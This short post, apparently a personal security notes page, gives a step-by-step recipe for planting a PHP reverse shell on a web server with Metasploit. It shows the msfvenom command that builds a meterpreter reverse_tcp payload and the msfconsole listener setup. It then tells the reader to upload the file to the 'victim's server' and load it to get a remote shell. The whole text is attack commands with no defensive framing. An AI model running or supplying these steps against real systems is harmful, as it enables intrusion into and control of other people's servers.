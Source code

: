 ```yaml
---
layout: post
title: "PHP Reverse Shell with Metasploit"
---
```


> **Requirements**: Write access to webserver.

1. Generate malicious PHP file:
   ```bash
   msfvenom -p php/meterpreter/reverse_tcp LHOST=<$LOCAL_IP> LPORT=<$LOCAL_PORT> -f raw -o shell.php
   ```
2. Run `msfconsole` to start the listener:
   ```
   use exploit/multi/handler 
   set LHOST <$LOCAL_IP>
   set LPORT <$LOCAL_PORT>
   set PAYLOAD php/meterpreter/reverse_tcp 
   exploit
   ```
3. Upload `shell.php` to the victim's server and then query it in a browser. This will connect back to the local Metasploit listener and open up a shell on the server.

---
